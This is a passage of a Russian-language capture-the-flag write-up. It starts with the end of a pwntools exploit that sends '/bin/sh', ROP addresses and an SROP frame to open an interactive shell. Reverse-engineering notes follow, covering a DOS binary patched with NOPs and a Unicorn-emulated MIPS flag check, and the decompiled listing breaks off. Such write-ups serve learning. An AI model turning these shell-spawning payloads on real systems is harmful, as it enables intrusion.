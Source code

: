 ```python=
p.send(b'/bin/sh' + 17 * b'R' + p64(0x40101C) + p64(0x40101C)+ p64(0x40102d) + bytes(frame2) + p64(0x40102d))
input('LAST')
p.send(b'/bin/sh' + b'\x00' + b'U'*7)
p.interactive()
```
**FLAG:NTO{7h47_w45n7_50_b4d_w45_17}**

## Reverse-10

Для исследования нам выдан exe файл. Понимаем что она содержит dos программу.
Запустив программу понимаем что она просто печатает флаг, но переодично вызывает системное прерывание sleep(опкоды операции CD 15).
Патчим эти опкоды на nop(опкод 90) и получаем флаг после того как запускаем программу в досбоксе.
![](https://i.imgur.com/uksn56f.png)
**FLAG:nto{h3ll0_n3w_5ch00l_fr0m_0ld!!}**

## Reverse-20
В начале работы программы происходит перестановка символов в строке флага по какому-то алгоритму, можно сопоставить индексы символов исходных и перестановленных. Также происходит проверка len(flag)=28
Далее по строкам вида `/home/c3nt/Projects/Olymp_tasks/Old_Times/uni/unicorn/qemu/accel/tcg/cputlb.c` понимаем, что используется эмулятор CPU unicorn. Он имеет открытый исходный код. Используя github, https://unicorn.dpldocs.info и https://hackmd.io/@K-atc/rJTUtGwuW восстанавливаем логику работы кода:
```python=
__int64 __fastcall checkShuffledFlag(__int64 KEy, _QWORD *flagstr)
{
  _QWORD *v2; // rax
  const char *v3; // rax
  _QWORD *v4; // rax
  _QWORD *v5; // rax
  __int64 result; // rax
  int v7; // [rsp+10h] [rbp-20h] BYREF
  int v8[2]; // [rsp+14h] [rbp-1Ch] BYREF
  int v9; // [rsp+1Ch] [rbp-14h]
  unsigned int *uc; // [rsp+20h] [rbp-10h] BYREF
  unsigned __int64 v11; // [rsp+28h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  v8[1] = 0;
  v9 = uc_open(3u, 4, &uc);                     // UC_ARCH_MIPS=3u UC_MODE_LITTLE_ENDIAN 
                                                // UC_MODE_32 = 4
                                                // 
  if ( v9 )
  {
    v2 = sub_1136000(4LL);
    *v2 = 2;
    sub_1137060(v2, &off_168A080, 0LL);
  }
  v9 = uc_mem_map(uc, *(KEy + 12), 2097152LL, 7u);// uc_mem_map(uc, UC_BUG_WRITE_ADDR, size, UC_PROT_ALL)
  v9 = uc_mem_write(uc, *(KEy + 12), *KEy, *(KEy + 8));
  v7 = 0;
  v9 = setReg(uc, 4, &v7);                      // v0 = 0
  v7 = 0x2C2C2C2C;
  v9 = setReg(uc, 6, &v7);                      // a0 = 0x2C2C2C2C
  v7 = *extract4Chars(flagstr, 0LL);
  v9 = setReg(uc, 11, &v7);                     // t1 = 4chars(0)
  v7 = *extract4Chars(flagstr, 1LL);
  v9 = setReg(uc, 12, &v7);                     // t2 = 4chars(1)
  v7 = *extract4Chars(flagstr, 2LL);
```